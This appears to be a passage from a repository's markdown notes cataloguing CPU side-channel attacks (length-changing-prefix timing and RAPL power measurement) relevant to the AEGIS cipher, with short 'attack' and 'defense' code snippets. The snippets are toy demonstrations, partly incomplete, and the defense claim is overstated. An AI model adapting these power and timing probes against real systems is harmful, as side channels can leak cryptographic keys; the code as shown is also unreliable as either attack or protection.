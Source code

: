 
#### 5. Non-MT Slow-Switch Timing Attack

- **Description**: Uses Length Changing Prefixes (LCPs) to force DSB-to-MITE switches, creating timing diffs.
- **AEGIS Relevance**: Might leak AEGIS AES round timing, exploitable via a side-channel analysis.
- **Transmission Rate**: Up to 1351.43 Kbps (Xeon E-2288G).
- **Error Rate**: 0.64%.
- **Affected Architecture**: Skylake family.
- **Why Combined**: Identical; LCP timing leaks apply to AEGIS AES-NI ops.

**Attack Code (x86-64 Assembly)**  
```nasm
section .text
global _start
_start:
    add rax, 1          ; Normal
    db 0x66             ; LCP
    add ax, 1           ; Slow switch
    mov rax, 60
    syscall
```

**Defense Code (C)**  
```c
void no_lcp_op(int data) {
    int result = data + 1; // No prefixes
    (void)result;
}
```
- **Impact**: Eliminates LCP-based leaks.

---

#### 6. Power-Based Attacks (Non-MT)

- **Description**: Exploits power diffs between LSD/DSB and MITE via RAPL, iterated 240k times due to 20kHz update rate.
- **AEGIS Relevance**: AEGIS key/state could be revealed via power signatures (AEGIS power side-channel vuln).
- **Transmission Rate**: ~0.63-0.66 Kbps (Xeon Gold 6226).
- **Error Rate**: 9.07%-18.87%.
- **Affected Architecture**: Skylake family.
- **Why Combined**: Same attack; power leaks directly threaten AEGIS confidentiality.

**Attack Code (C)**  
```c
#include <stdio.h>
uint64_t read_rapl() {
    uint64_t energy;
    FILE *f = fopen("/sys/class/powercap/intel-rapl:0/energy_uj", "r");
    fscanf(f, "%lu", &energy);
    fclose(f);
    return energy;
}
void attack() {
    for (int i = 0; i < 240000; i++) {
        asm("aesenc %xmm0, %xmm1");
    }
    printf("Power: %lu\n", read_rapl());
}
```
